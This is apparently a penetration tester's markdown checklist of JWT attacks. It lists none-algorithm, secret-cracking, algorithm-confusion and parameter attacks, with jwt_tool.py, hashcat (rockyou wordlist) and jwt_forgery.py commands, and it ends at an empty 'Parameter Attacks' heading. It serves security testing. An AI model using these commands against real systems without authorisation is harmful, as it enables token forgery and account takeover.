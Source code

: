- [ ] Identify JWT token headers (Authorization Bearer, Cookies?)
- [ ] Check payload modification, payload attack JWT
- [ ] None-algorithm attack, header attack JWT
- [ ] Check signing attack JWT
- [ ] Algorithm Confusion Attack 
- [ ] JWT Parameters Attack
- [ ] JWT secret re-used across different domains

(jwt_tool.py) JWT analysis
```bash
python3 jwt_tool.py <JWT_TOKEN>
```
### Header-based Attack
None-algorithm
- CyberChef
```json
{
	"alg": None,
	"typ": "JWT",
}
```
(jwt_tool.py) None-algorithm attack
```bash
python3 jwt_tool.py -X a <JWT_TOKEN>
```
### Signing-based Attacks
(hashcat) Cracking JWT secret
```bash
hashcat -m 16500 jwt.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
Algorithm Confusion (RS256)
- Use a different algorithm to sign token (HS256)
```bash
python3 jwt_forgery.py <JWT_TOKEN1> <JWT_TOKEN2>
```
### Parameter Attacks
